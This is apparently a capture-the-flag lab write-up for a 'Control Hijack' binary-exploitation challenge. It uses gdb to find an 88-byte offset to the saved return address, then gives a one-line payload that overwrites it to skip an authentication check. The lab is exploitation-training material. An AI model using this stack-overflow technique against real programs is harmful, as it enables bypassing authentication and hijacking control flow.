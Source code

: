 # Control Hijack (hard)

1. In gdb, `disas win_authed` and `disas main`, we get to know:
    - Instruction after auth check is at **0x00000000004021de**
    - challenge() returns at **0x0000000000402441**

2. Set a breakpoint `b *challenge+148`, run and give a short string of a's as input
3. `info frame` -> rbp is at **0x7ffd1df81e00**
4. `x/100xg $rbp-200`:
    - input buffer starts at **0x7ffd1df81db0**, which is **rbp-0x50** = rbp-80
    - return address is stored at **0x7ffd1df81e08**, which is **rbp+0x8** = rbp+8
5. 88 a's followed by desired address:

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\x21\x40\x00\x00\x00\x00\x00" | /challenge/binary-exploitation-control-hijack-2 
    ```
